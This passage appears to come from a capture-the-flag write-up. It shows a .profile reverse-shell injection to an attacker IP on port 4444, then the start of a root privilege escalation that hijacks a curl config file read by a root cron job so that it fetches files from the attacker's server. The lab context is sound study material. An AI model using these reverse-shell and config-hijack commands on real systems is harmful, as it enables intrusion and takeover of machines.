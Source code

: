 {% code overflow="wrap" %}
```bash
ayham@482cbf2305ae:/tmp$ echo 'bash -c "bash -i >& /dev/tcp/10.18.88.214/4444 0>&1"' >> /home/F30s/.profile
```
{% endcode %}

Setup nc listener to catch it.

And we got a shell  as `F30s` user.

<figure><img src=".gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Root

i decided to run `pspy64` to see live running processes, and noticed an interesting process :

```plaintext
CMD: UID=0     PID=298    | /bin/sh -c    curl -K /home/F30s/site_check
```

so root is executing `curl -K /home/F30s/site_check`, let's check the site\_check file :

```plaintext
F30s@482cbf2305ae:~$ cat site_check
url = "http://127.0.0.1/health_check"
```

so this is a curl config file, basically instead of specifying arguments in the terminal, we can just add them to this config file, and we see that the url is `http://127.0.0.1/health_check`, i tried to access that but got no connection.

but since we can modify this file, we can modify the url to some file that we control and add another argument which is `output`, to right the content of the url to that output file.

let's first test this, so in my local machine, i create a simple text file and opened an http server :

```plaintext
└─$ echo 'ttttttttt' > test.txt

└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

then i modified the curl config file to :

```bash
url = "http://10.18.88.214/test.txt"
output = "/tmp/test.txt"
```

This is telling curl to request for `test.txt` file, and output it to the `/tmp` dir.
